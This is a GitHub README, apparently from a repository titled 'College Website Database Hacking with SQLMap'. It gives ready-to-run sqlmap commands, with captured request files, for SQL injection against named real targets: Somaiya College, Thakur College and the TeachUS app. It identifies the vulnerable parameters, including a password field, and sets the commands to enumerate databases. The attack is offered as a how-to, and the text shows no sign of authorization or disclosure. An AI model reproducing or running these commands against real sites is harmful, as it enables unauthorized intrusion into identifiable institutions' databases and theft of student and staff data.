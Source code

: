 # College Website Database Hacking with SQLMap

This repository showcases how I successfully tested the security of these databases by exploiting SQL vulnerabilities. The tools I used 
 [SQLMap](http://sqlmap.org/) and [Acunetix](https://www.acunetix.com/).

## Prerequisites

Before running the SQLMap commands, ensure you have the following installed:

- [SQLMap](http://sqlmap.org/)
- [Acunetix](https://www.acunetix.com/)
- Python 2.7 or Python 3.x

You will also need the request files provided in this repository:

- `somaiyaClg.txt`
- `thakur.txt`
- `teachus.txt`

These files contain the HTTP requests captured during the penetration testing.

## Clone Repository
```bash
git clone https://github.com/seanvishwakarma/sql-database-hack.git
```

## How to Use

### 1. Somaiya College Website

The SQL injection vulnerability was found in the `id` parameter.

```bash
sqlmap -r somaiyaClg.txt -p id --batch --level 5 --risk 3 --dbs
```
![Somaiya College SQLMap Result](images/somaiyaClg.png)

### 2. Thakur College Website

For Thakur College, the vulnerability was found in the `password` parameter.

```bash
sqlmap -r thakur.txt -p password --batch --level 5 --risk 3 --time-sec=5 --dbs
```
![Thakur College SQLMap Result](images/thakur.png)


### 3. TeachUS App Database

The TeachUS app database was vulnerable through the college parameter.

```bash
sqlmap -r teachus.txt -p college --batch --level 5 --risk 3 --dbs
```
![TeachUS App SQLMap Result](images/teachus.png)
